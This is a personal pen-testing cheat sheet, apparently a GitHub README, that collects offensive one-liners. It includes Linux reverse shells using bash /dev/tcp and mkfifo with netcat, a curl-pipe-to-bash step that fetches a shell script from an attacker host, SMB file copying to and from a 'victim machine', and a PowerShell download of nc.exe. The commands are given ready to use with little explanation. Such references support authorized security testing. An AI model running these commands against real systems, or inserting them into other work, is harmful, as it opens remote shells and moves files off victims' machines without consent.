 # Cheat Sheet
Here are some commands, reverse shells, and small scripts that I keep for pen-testing.

## Quick Links
[Linux Privilege Escalation](LinuxPrivEsc/README.md) <br>
[Windows Privilege Escalation](WindowsPrivEsc/README.md)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

[Web Penetration Testing Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Reverse Shell
Alternate ways to gain shells.

### Linux
Using cURL
```bash
echo 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1' > rev.sh
python3 -m http.server 8080
nc -lnvp 1337
curl http://10.10.10.10:8080/rev.sh | bash
```
Probably the least-special-characters way (and with sh):
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 > /tmp/f
```

I used bash to call bash
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1'
```


### Windows
Using impacket-smbserver we can copy files to and from the victim machine. Start the impacket-smbserver:
On Kali machine:
```bash
impacket-smbserver leet .
```
To copy files from Kali to Windows:
```cmd
> copy \\<Kali IP>\leet\file.ext file.ext
```

To copy files from Windows to Kali:
```cmd
> copy file.ext \\<Kali IP>\leet\file.ext
```

You can copy files from your Kali VM using powershell one-liner
```cmd
powershell Invoke-WebRequest -uri http://10.10.10.10/nc.exe -outfile C:\write\whever\nc.exe
```

